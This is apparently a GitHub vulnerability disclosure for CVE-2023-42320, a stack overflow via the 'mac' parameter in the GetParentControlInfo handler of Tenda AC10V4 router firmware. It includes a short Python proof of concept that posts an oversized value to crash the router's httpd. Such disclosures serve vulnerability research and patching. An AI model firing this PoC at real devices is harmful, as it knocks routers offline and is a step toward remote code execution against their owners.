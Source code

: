 # CVE-2023-42320

> vendor:Tenda
>
> product:AC10V4
>
> version:US_AC10V4.0si_V16.03.10.13_cn_TDC01
>
> type:Stack Overflow  

## Vulnerability Description

Tenda AC10V4.0 si_V16.03.10.13_cn_TDC01 were discovered to contain a stack overflow via the mac parameter in the GetParentControlInfo function.

## Vulnerability Details

In function GetParentControlInfo line 35, it reads in a user-provided parameter, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![src0](https://github.com/aixiao0621/Tenda/blob/main/AC10/src0.jpg)

## Recurring vulnerabilities and POC

Run poc and you will see process httpd crash, segmentation fault.

```
import requests
    
host = "192.168.59.136:80"
cy = b'a'*1000
def exploit_GetParentControlInfo():
    url = f"http://{host}/goform/GetParentControlInfo"
    data = {
        b'mac':cy
    }
    res = requests.post(url=url,data=data)
    print(res.content)
exploit_GetParentControlInfo()
```

![src1](https://github.com/aixiao0621/Tenda/blob/main/AC10/src1.jpg)
